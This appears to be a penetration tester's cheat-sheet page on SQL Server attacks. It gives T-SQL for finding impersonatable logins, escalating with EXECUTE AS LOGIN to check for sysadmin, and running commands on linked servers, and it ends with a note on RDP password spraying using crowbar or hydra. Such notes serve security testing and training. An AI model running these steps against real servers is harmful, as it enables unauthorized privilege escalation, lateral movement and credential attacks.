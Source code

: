 - Impersonate
1. Identify users

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```

2. Check current role
```
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go
```

3. Impersonate
```
EXECUTE AS LOGIN = 'USER'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
go


# Revert
REVERT


- All users have access to master db
* USE master
```

- Linked Servers: to check their privileges
4. show remotes
  
```
# Find local linked servers . remotes
SELECT srvname, isremote FROM sysservers

# Execute commands at the linked server
EXECUTE('command') at [10.0.0.12\SQLEXPRESS]

# Example: find user inside the linked server
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]

# Read file
```

- GUI: [dbeaver](https://github.com/dbeaver/dbeaver)

### RDP
- TCP:3389
- Spraying
  - crowbar/hydra
